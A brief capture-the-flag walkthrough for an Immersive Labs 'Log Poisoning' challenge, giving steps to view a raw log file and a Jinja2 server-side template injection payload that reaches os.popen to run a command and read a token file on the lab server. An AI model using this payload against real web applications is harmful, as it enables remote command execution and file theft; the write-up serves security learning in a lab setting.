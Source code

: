 ```yaml
---
date: 2025-03-15
categories: [CTF, ImmersiveLabs]
title: "IML - Log Poisoning"
tags: ['log poisoning', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Log Poisoning - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Log Poisoning

This is log poisoning and Jinja SSTI

**Reset if you get Internal Server Error**

Register new user

Go to search term and search for "user=admin"
While on that search result page - change the URL to  `http://10.102.122.21/raw/log.txt`

You should be able to view the raw log file now

Go back to search and use the payload:

{% raw %}
```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /tmp/token.txt").read()}}{% endif %}{% endfor %}
```
{% endraw %}

Now search for user=admin again and go to  `http://10.102.122.21/raw/log.txt`

- And we get the token:

![image1](../resources/fb9f93ba8d6645828fcb4124db85d764.png)

<https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6>
